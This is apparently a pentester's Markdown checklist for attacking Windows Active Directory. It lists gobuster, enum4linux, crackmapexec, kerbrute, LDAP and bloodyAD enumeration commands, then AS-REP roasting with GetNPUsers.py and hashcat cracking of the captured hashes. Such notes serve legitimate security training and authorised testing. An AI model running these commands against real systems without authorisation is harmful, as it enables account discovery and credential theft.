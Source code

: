 # Sites
- [WADComs](https://wadcoms.github.io/) Windows/Active Directory cheat sheet and checklist.
- [AD Username Generator](https://github.com/w0Tx/generate-ad-username)

# Commands
- [ ] Nmap
- [ ] gobuster dir --url http://domain.com/ --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -o gobuster.dir
- [ ] gobuster vhost --append-domain -u http://domain.com -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -o gobuster.vhosts
- [ ] enum4linux -a -A $IP
- [ ] enum4linux -a -u "" -p "" $IP
- [ ] enum4linux -a -u "guest" -p "" $IP
- [ ] crackmapexec smb $IP --users --groups --shares
- [ ] crackmapexec smb $IP -u '' -p '' --users --groups --shares # Guest User
- [ ] crackmapexec smb $IP -u 'username' -p 'password' --users --groups --shares # Guest User
- [ ] kerbrute userenum -d domain.com -o kerbrute --dc dco1.domain.com /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
- [ ] nmap -n -sV --script "ldap* and not brute" -p 389 $IP
- [ ] bloodyAD -u 'user' -p 'password' -d domain.com --host $IP get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
- [ ] GetNPUsers.py domain.com/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
- [ ] python GetNPUsers.py domain.com/username:password -request -format hashcat -outputfile hashes.asreproast
- [ ] hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
